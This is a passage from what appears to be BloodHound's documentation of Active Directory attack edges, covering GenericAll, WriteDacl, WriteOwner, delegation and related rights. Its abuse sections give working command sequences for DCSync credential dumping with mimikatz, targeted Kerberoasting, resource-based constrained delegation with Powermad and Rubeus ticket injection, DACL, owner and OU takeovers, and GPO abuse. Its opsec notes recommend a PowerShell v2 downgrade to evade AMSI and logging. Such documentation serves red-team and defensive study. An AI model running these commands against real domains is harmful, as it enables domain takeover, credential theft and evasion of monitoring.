  Rubeus.exe s4u /user:victim /rc4:2b576acbe6bcfda7294d6bd18041b8fe /impersonateuser:admin /msdsspn:"HTTP/PRIMARY.testlab.local" /altservice:cifs /ptt

Opsec Considerations
--------------------

As mentioned in the abuse info, in order to currently abuse this primitive the Rubeus C# assembly needs
to be executed on some system with the ability to send/receive traffic in the domain. See the References
for more information.

References
----------

* https://github.com/GhostPack/Rubeus#s4u
* https://labs.mwrinfosecurity.com/blog/trust-years-to-earn-seconds-to-break/
* http://www.harmj0y.net/blog/activedirectory/s4u2pwnage/
* https://twitter.com/gentilkiwi/status/806643377278173185
* https://www.coresecurity.com/blog/kerberos-delegation-spns-and-more
* http://www.harmj0y.net/blog/redteaming/from-kekeo-to-rubeus/
* http://www.harmj0y.net/blog/redteaming/another-word-on-delegation/

|

----

|

GetChanges/GetChangesAll
^^^^^^^^^^^^^^^^^^^^^^^^

The combination of both these privileges grants a principal the ability to perform the DCSync attack.

Abuse Info
---------

With both GetChanges and GetChangesAll privileges in BloodHound, you may perform a dcsync attack to
get the password hash of an arbitrary principal using mimikatz:
            
::

  lsadump::dcsync /domain:testlab.local /user:Administrator

You can also perform the more complicated ExtraSids attack to hop domain trusts. For information on
this see the blog post by harmj0y in the references tab.

Opsec Considerations
--------------------

For detailed information on detection of DCSync as well as opsec considerations, see the ADSecurity
post in the references section below.

References
----------

* https://adsecurity.org/?p=1729
* http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/

|

----

|

GenericAll
^^^^^^^^^^

This is also known as full control. This privilege allows the trustee to manipulate the target object
however they wish.

Abuse Info
---------

**With GenericAll Over a Group:**

Full control of a group allows you to directly modify group membership of the group. For full abuse
info in that scenario, see the Abuse Info section under the AddMembers edge

**With GenericAll Over a User:**

**Targeted Kerberoast**
A targeted kerberoast attack can be performed using PowerView’s Set-DomainObject along with
Get-DomainSPNTicket. 

You may need to authenticate to the Domain Controller as the user with full control over the target
user if you are not running a process as that user. To do this in conjunction with Set-DomainObject,
first create a PSCredential object (these examples comes from the PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

Then, use Set-DomainObject, optionally specifying $Cred if you are not already running a process as
the user with full control over the target user.

::

  Set-DomainObject -Credential $Cred -Identity harmj0y -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}

After running this, you can use Get-DomainSPNTicket as follows:
    
::

  Get-DomainSPNTicket -Credential $Cred harmj0y | fl

The recovered hash can be cracked offline using the tool of your choice. Cleanup of the ServicePrincipalName
can be done with the Set-DomainObject command:

::

  Set-DomainObject -Credential $Cred -Identity harmj0y -Clear serviceprincipalname

**Force Change Password**

You can also reset user passwords with full control over user objects. For full abuse info about this attack,
see the information under the ForceChangePassword edge

**With GenericAll Over a Computer**

Full control of a computer object is abusable when the computer’s local admin account credential is
controlled with LAPS. The clear-text password for the local administrator account is stored in an extended
attribute on the computer object called ms-Mcs-AdmPwd. With full control of the computer object, you may
have the ability to read this attribute, or grant yourself the ability to read the attribute by modifying
the computer object’s security descriptor.
    
Alternatively, Full control of a computer object can be used to perform a resource based constrained
delegation attack. 

Abusing this primitive is currently only possible through the Rubeus project.

First, if an attacker does not control an account with an SPN set, Kevin Robertson's Powermad project can
be used to add a new attacker-controlled computer account:

::

  New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)

PowerView can be used to then retrieve the security identifier (SID) of the newly created computer account:

::

  $ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid

We now need to build a generic ACE with the attacker-added computer SID as the pricipal, and get the
binary bytes for the new DACL/ACE:

::

  $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
  $SDBytes = New-Object byte[] ($SD.BinaryLength)
  $SD.GetBinaryForm($SDBytes, 0)

Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity
field of the comptuer account we're taking over, again using PowerView in this case:

::

  Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

We can then use Rubeus to hash the plaintext password into its RC4_HMAC form:

::

  Rubeus.exe hash /password:Summer2018!

And finally we can use Rubeus' *s4u* module to get a service ticket for the service name (sname) we
want to "pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case grants
us access to the file system of the TARGETCOMPUTER:

::

  Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt

**With GenericAll Over a Domain Object**

Full control of a domain object grants you both DS-Replication-Get-Changes as well as DS-Replication-Get-Changes-All
rights. The combination of these rights allows you to perform the dcsync attack using mimikatz. To grab the
credential of the user harmj0y using these rights:

::

  lsadump::dcsync /domain:testlab.local /user:harmj0y

See a video walk through of how to execute this attack here:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/RUbADHcBLKg?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

**With GenericAll Over a GPO**

With full control of a GPO, you may make modifications to that GPO which will then apply to the users and
computers affected by the GPO. Select the target object you wish to push an evil policy down to, then use
the gpedit GUI to modify the GPO, using an evil policy that allows item-level targeting, such as a new
immediate scheduled task. Then wait at least 2 hours for the group policy client to pick up and execute
the new evil policy. See the references tab for a more detailed write up on this abuse

**With GenericAll Over an OU**

With full control of an OU, you may add a new ACE on the OU that will inherit down to the objects under that
OU. Below are two options depending on how targeted you choose to be in this step:

Generic Descendent Object Takeover:

The simplest and most straight forward way to abuse control of the OU is to apply a GenericAll ACE on the OU
that will inherit down to all object types. Again, this can be done using PowerView. This time we will use
the New-ADObjectAccessControlEntry, which gives us more control over the ACE we add to the OU.

First, we need to reference the OU by its ObjectGUID, not its name. You can find the ObjectGUID for the OU
in the BloodHound GUI by clicking the OU, then inspecting the *objectid* value

Next, we will fetch the GUID for all objects. This should be '00000000-0000-0000-0000-000000000000':

::

  $Guids = Get-DomainGUIDMap
  $AllObjectsPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'All'} | select -ExpandProperty name

Then we will construct our ACE. This command will create an ACE granting the "JKHOLER" user full control of
all descendant objects:

::

  ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity 'JKOHLER' -Right GenericAll -AccessControlType Allow -InheritanceType All -InheritedObjectType $AllObjectsPropertyGuid

Finally, we will apply this ACE to our target OU:

::

  $OU = Get-DomainOU -Raw (OU GUID)
  $DsEntry = $OU.GetDirectoryEntry()
  $dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
  $dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
  $dsEntry.PsBase.CommitChanges()

Now, the "JKOHLER" user will have full control of all descendent objects of each type.

Targeted Descendent Object Takeoever:

If you want to be more targeted with your approach, it is possible to specify precisely what right you want
to apply to precisely which kinds of descendent objects. You could, for example, grant a user
"ForceChangePassword" privilege against all user objects, or grant a security group the ability to read every
GMSA password under a certain OU. Below is an example taken from PowerView's help text on how to grant the
"ITADMIN" user the ability to read the LAPS password from all computer objects in the "Workstations" OU:

::

  $Guids = Get-DomainGUIDMap
  $AdmPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'ms-Mcs-AdmPwd'} | select -ExpandProperty name
  $CompPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'Computer'} | select -ExpandProperty name
  $ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity itadmin -Right ExtendedRight,ReadProperty -AccessControlType Allow -ObjectType $AdmPropertyGuid -InheritanceType All -InheritedObjectType $CompPropertyGuid
  $OU = Get-DomainOU -Raw Workstations
  $DsEntry = $OU.GetDirectoryEntry()
  $dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
  $dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
  $dsEntry.PsBase.CommitChanges()

Opsec Considerations
--------------------

.. todo:: Add opsec considerations here

References
----------

* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://www.youtube.com/watch?v=z8thoG7gPd0
* https://adsecurity.org/?p=1729
* http://www.harmj0y.net/blog/activedirectory/targeted-kerberoasting/
* https://posts.specterops.io/a-red-teamers-guide-to-gpos-and-ous-f0d03976a31e
* https://eladshamir.com/2019/01/28/Wagging-the-Dog.html
* https://github.com/GhostPack/Rubeus#s4u
* https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff
* http://www.harmj0y.net/blog/redteaming/another-word-on-delegation/
* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://github.com/Kevin-Robertson/Powermad#new-machineaccount

|

----

|

WriteDacl
^^^^^^^^^

With write access to the target object's DACL, you can grant yourself any privilege you want
on the object.

Abuse Info
---------

With the ability to modify the DACL on the target object, you can grant yourself almost any
privilege against the object you wish.

**Groups**

With WriteDACL over a group, grant yourself the right to add members to the group:

::

  Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights WriteMembers

See the abuse info for AddMembers edge for more information about execution the attack from
there.

**Users**

With WriteDACL over a user, grant yourself full control of the user object:

::

  Add-DomainObjectAcl -TargetIdentity harmj0y -Rights All

See the abuse info for ForceChangePassword and GenericAll over a user for more infromation
about how to continue from there.

**Computers**

With WriteDACL over a computer object, grant yourself full control of the computer
object:

::

  Add-DomainObjectAcl -TargetIdentity windows1 -Rights All

Then either read the LAPS password attribute for the computer or perform resource-based
constrained delegation against the target computer.

**Domains**

With WriteDACL against a domain object, grant yourself the ability to DCSync:

::

  Add-DomainObjectAcl -TargetIdentity testlab.local -Rights DCSync

Then perform the DCSync attack.

**GPOs**

With WriteDACL over a GPO, grant yourself full control of the GPO:

::

  Add-DomainObjectAcl -TargetIdentity TestGPO -Rights All

Then edit the GPO to take over an object the GPO applies to.

**OUs**

With WriteDACL over an OU, grant yourself full control of the OU:

::

  Add-DomainObjectAcl -TargetIdentity (OU GUID) -Rights All

Then add a new ACE to the OU that inherits down to child objects to take over
those child objects.

Opsec Considerations
--------------------

When using the PowerView functions, keep in mind that PowerShell v5 introduced several security
mechanisms that make it much easier for defenders to see what's going on with PowerShell in their
network, such as script block logging and AMSI. You can bypass those security mechanisms by
downgrading to PowerShell v2, which all PowerView functions support.

Modifying permissions on an object will generate 4670 and 4662 events on the domain controller
that handled the request.
            
Additional opsec considerations depend on the target object and how to take advantage of this
privilege.

References
----------

* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://www.youtube.com/watch?v=z8thoG7gPd0
* https://eladshamir.com/2019/01/28/Wagging-the-Dog.html
* https://github.com/GhostPack/Rubeus#s4u
* https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff
* http://www.harmj0y.net/blog/redteaming/another-word-on-delegation/
* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://github.com/Kevin-Robertson/Powermad#new-machineaccount
* https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectorysecurityinheritance?view=netframework-4.8

|

----

|

GenericWrite
^^^^^^^^^^^^
Generic Write access grants you the ability to write to any non-protected attribute on the target
object, including "members" for a group, and "serviceprincipalnames" for a user

Abuse Info
---------

**Users**

With GenericWrite over a user, perform a targeted kerberoasting attack. See the abuse section
under the GenericAll edge for more information

**Groups**

With GenericWrite over a group, add yourself or another principal you control to the group.
See the abuse info under the AddMembers edge for more information

**Computers**

With GenericWrite over a computer, perform resource-based constrained delegation against the
computer. See the GenericAll edge abuse info for more information about that attack.

Opsec Considerations
--------------------

This will depend on which type of object you are targetting and the attack you perform. See
the relevant edge for opsec considerations for the actual attack you perform.

References
----------

https://www.youtube.com/watch?v=z8thoG7gPd0

|

----

|

WriteOwner
^^^^^^^^^^

Object owners retain the ability to modify object security descriptors, regardless of
permissions on the object's DACL.

This clip shows an example of abusing this edge:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/fqYoOoghqdE?t=1619?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

Abuse Info
---------

To change the ownership of the object, you may use the Set-DomainObjectOwner function in
PowerView.

To abuse this privilege with PowerView's Set-DomainObjectOwner, first import PowerView
into your agent session or into a PowerShell instance at the console. You may need to
authenticate to the Domain Controller as the user with the password reset privilege if
you are not running a process as that user.

To do this in conjunction with Set-DomainObjectOwner, first create a PSCredential object
(these examples comes from the PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

Then, use Set-DomainObjectOwner, optionally specifying $Cred if you are not already
running a process as the user with this privilege:

::

  Set-DomainObjectOwner -Credential $Cred -TargetIdentity "Domain Admins" -OwnerIdentity harmj0y

Now, with ownership of the object, you may modify the DACL of the object however you wish.
For more information about that, see the WriteDacl edge section.

Opsec Considerations
--------------------

This depends on the target object and how to take advantage of this privilege.

When using the PowerView functions, keep in mind that PowerShell v5 introduced several security
mechanisms that make it much easier for defenders to see what's going on with PowerShell in
their network, such as script block logging and AMSI. You can bypass those security mechanisms
by downgrading to PowerShell v2, which all PowerView functions support.

Modifying permissions on an object will generate 4670 and 4662 events on the domain controller
that handled the request.

References
----------

https://www.youtube.com/watch?v=z8thoG7gPd0

|

----

|

Owns
^^^^

Object owners retain the ability to modify object security descriptors, regardless of permissions
on the object's DACL

This clip shows an example of abusing object ownership:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/fqYoOoghqdE?t=1619?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

Abuse Info
---------

With ownership of the object, you may modify the DACL of the object however you wish.
For more information about that, see the WriteDacl edge section.

Opsec Considerations
--------------------

This depends on the target object and how to take advantage of this privilege.

When using the PowerView functions, keep in mind that PowerShell v5 introduced several security
mechanisms that make it much easier for defenders to see what's going on with PowerShell in
their network, such as script block logging and AMSI. You can bypass those security mechanisms
by downgrading to PowerShell v2, which all PowerView functions support.

Modifying permissions on an object will generate 4670 and 4662 events on the domain controller
that handled the request.

References
----------

https://www.youtube.com/watch?v=z8thoG7gPd0

|

----

|

Contains
^^^^^^^^

GPOs linked to a container apply to all objects that are contained by the container. Additionally,
ACEs set on a parent OU may inherit down to child objects.

Abuse Info
---------

With control of an OU, you may add a new ACE on the OU that will inherit down to the objects under that
OU. Below are two options depending on how targeted you choose to be in this step:

Generic Descendent Object Takeover:

The simplest and most straight forward way to abuse control of the OU is to apply a GenericAll ACE on the OU
that will inherit down to all object types. Again, this can be done using PowerView. This time we will use
the New-ADObjectAccessControlEntry, which gives us more control over the ACE we add to the OU.

First, we need to reference the OU by its ObjectGUID, not its name. You can find the ObjectGUID for the OU
in the BloodHound GUI by clicking the OU, then inspecting the *objectid* value

Next, we will fetch the GUID for all objects. This should be '00000000-0000-0000-0000-000000000000':

::

  $Guids = Get-DomainGUIDMap
  $AllObjectsPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'All'} | select -ExpandProperty name

Then we will construct our ACE. This command will create an ACE granting the "JKHOLER" user full control of
all descendant objects:

::

  ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity 'JKOHLER' -Right GenericAll -AccessControlType Allow -InheritanceType All -InheritedObjectType $AllObjectsPropertyGuid

Finally, we will apply this ACE to our target OU:

::

  $OU = Get-DomainOU -Raw (OU GUID)
  $DsEntry = $OU.GetDirectoryEntry()
  $dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
  $dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
  $dsEntry.PsBase.CommitChanges()

Now, the "JKOHLER" user will have full control of all descendent objects of each type.

Targeted Descendent Object Takeoever:

If you want to be more targeted with your approach, it is possible to specify precisely what right you want
to apply to precisely which kinds of descendent objects. You could, for example, grant a user
"ForceChangePassword" privilege against all user objects, or grant a security group the ability to read every
GMSA password under a certain OU. Below is an example taken from PowerView's help text on how to grant the
"ITADMIN" user the ability to read the LAPS password from all computer objects in the "Workstations" OU:

::

  $Guids = Get-DomainGUIDMap
  $AdmPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'ms-Mcs-AdmPwd'} | select -ExpandProperty name
  $CompPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'Computer'} | select -ExpandProperty name
  $ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity itadmin -Right ExtendedRight,ReadProperty -AccessControlType Allow -ObjectType $AdmPropertyGuid -InheritanceType All -InheritedObjectType $CompPropertyGuid
  $OU = Get-DomainOU -Raw Workstations
  $DsEntry = $OU.GetDirectoryEntry()
  $dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
  $dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
  $dsEntry.PsBase.CommitChanges()

Opsec Considerations
--------------------

.. todo:: add opsec considerations

References
----------

* https://wald0.com/?p=179
* https://blog.cptjesus.com/posts/bloodhound15

|

----

|

AllExtendedRights
^^^^^^^^^^^^^^^^^

Extended rights are special rights granted on objects which allow reading of privileged
attributes, as well as performing special actions.

Abuse Info
---------

**Users**

Having this privilege over a user grants the ability to reset the user's password. For
more information about that, see the ForceChangePassword edge section

**Groups**

This privilege grants the ability to modify group memberships. For more information on
that, see the AddMembers edge section

**Computers**

You may perform resource-based constrained delegation with this privilege over a computer
object. For more information about that, see the GenericAll edge section.

Opsec Considerations
--------------------

This will depend on the actual attack performed. See the particular opsec considerations
sections for the ForceChangePassword, AddMembers, and GenericAll edges for more info

References
----------

https://www.youtube.com/watch?v=z8thoG7gPd0

|

----

|

GpLink
^^^^^^

A linked GPO applies its settings to objects in the linked container.

Abuse Info
---------

This edge helps you understand which object a GPO applies to, and so the actual abuse
is actually being performed against the GPO this edge originates from. For more info
about that abuse, see the GenericAll edge section for when you have full control over
a GPO.

Opsec Considerations
--------------------

See the GenericAll edge section for opsec considerations

References
----------

https://wald0.com/?p=179

|

----

|

AllowedToAct
^^^^^^^^^^^^

An attacker can use this account to execute a modified S4U2self/S4U2proxy abuse chain to
impersonate any domain user to the target computer system and receive a valid service
ticket "as" this user.

One caveat is that impersonated users can not be in the "Protected Users" security group
or otherwise have delegation privileges revoked. Another caveat is that the principal
added to the msDS-AllowedToActOnBehalfOfOtherIdentity DACL *must* have a service pricipal
name (SPN) set in order to successfully abuse the S4U2self/S4U2proxy process. If an
attacker does not currently control an account with a SPN set, an attacker can abuse the
default domain MachineAccountQuota settings to add a computer account that the attacker
controls via the Powermad project.

This clip demonstrates how to abuse this edge:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/fqYoOoghqdE?t=1814?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

Abuse Info
---------

Abusing this primitive is currently only possible through the Rubeus project.
            
To use this attack, the controlled account MUST have a service principal name set, along
with access to either the plaintext or the RC4_HMAC hash of the account.

If the plaintext password is available, you can hash it to the RC4_HMAC version using Rubeus:

::

  Rubeus.exe hash /password:Summer2018!

Use Rubeus' *s4u* module to get a service ticket for the service name (sname) we want to
"pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case
grants us access to the file system of the TARGETCOMPUTER:
    
::

  Rubeus.exe s4u /user:<trusted user> /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt

Opsec Considerations
--------------------

To execute this attack, the Rubeus C# assembly needs to be executed on some system with the
ability to send/receive traffic in the domain.

References
----------

* https://eladshamir.com/2019/01/28/Wagging-the-Dog.html
* https://github.com/GhostPack/Rubeus#s4u
* https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff
* http://www.harmj0y.net/blog/redteaming/another-word-on-delegation/
* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://github.com/Kevin-Robertson/Powermad#new-machineaccount

|

----

|

AddAllowedToAct
^^^^^^^^^^^^^^^

The ability to modify the msDS-AllowedToActOnBehalfOfOtherIdentity property allows an attacker
to abuse resource-based constrained delegation to compromise the remote computer system. This
property is a binary DACL that controls what security principals can pretend to be any domain
user to the particular computer object.

This clip demonstrates how to abuse this edge:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/fqYoOoghqdE?t=1814?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

Abuse Info
---------

See the AllowedToAct edge section for abuse info

Opsec Considerations
--------------------

See the AllowedToAct edge section for opsec considerations

References
----------

* https://eladshamir.com/2019/01/28/Wagging-the-Dog.html
* https://github.com/GhostPack/Rubeus#s4u
* https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff
* http://www.harmj0y.net/blog/redteaming/another-word-on-delegation/
* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://github.com/Kevin-Robertson/Powermad#new-machineaccount

|

----

|

TrustedBy
^^^^^^^^^

This edge is used to keep track of domain trusts, and maps to the direction of access.

Abuse Info
---------

This edge will come in handy when analzying how to jump a forest trust to get enterprise
admin access from domain admin access within a forest. For more information about that
attack, see http://www.harmj0y.net/blog/redteaming/the-trustpocalypse/

References
----------

http://www.harmj0y.net/blog/redteaming/the-trustpocalypse/

